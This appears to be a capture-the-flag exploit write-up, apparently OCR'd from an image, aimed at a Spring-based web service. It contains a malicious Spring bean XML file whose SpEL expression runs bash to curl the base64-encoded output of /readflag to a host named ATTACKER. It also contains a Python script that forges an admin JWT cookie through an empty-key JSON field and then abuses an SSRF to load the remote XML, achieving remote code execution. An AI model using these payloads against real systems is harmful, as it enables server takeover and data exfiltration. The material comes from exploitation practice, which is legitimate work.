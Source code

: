 ```
 pov.xml 
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<bean class="#{T(java.lang.Runtime).getRuntime().exec(
        new String[] {
        '/bin/bash', '-c', 'curl https://ATTACKER/?flag=$(/readflag|base64)'
        }
        )}"></bean>
</beans>
```

# Set JWT admin true cookie
# Ref: https://blog.kuron3k0.vip/2021/04/10/vulns-of-misunderstanding-annotation/

```
def get_admin_jwt(client):
    payload = {
        "firstName": "marce",
        "lastName": "loves",
        "favouriteCategory": "p4rra",
        "": {"admin": True}
    }
    r = client.post(URL, json=payload)
    print(f"[*] jwt: {r.cookies['jwt']}\n")
    assert "" != r.cookies['jwt']


# /admin update
def deserialization(client):
    build = '[{"type":"object","name":"TypeReference","value":"org.springframework.context.support.FileSystemXmlApplicationContext|' + ATTACKER + '"}]'
    payload = {'url': "http://{127.0.0.1:8090,@nicknameservice:5000/}/ExperimentalSerializer?serialized="+quote(build)}
    r = client.post(URL+'admin/update', data=payload)
    print(r.text)


client = httpx.Client()
get_admin_jwt(client)
deserialization(client)
```

link : https://blog.kuron3k0.vip/2021/04/10/vulns-of-misunderstanding-annotation/
link curl global : https://curl.se/docs/manpage.html
link cve : https://www.cnblogs.com/afanti/p/10203282.html
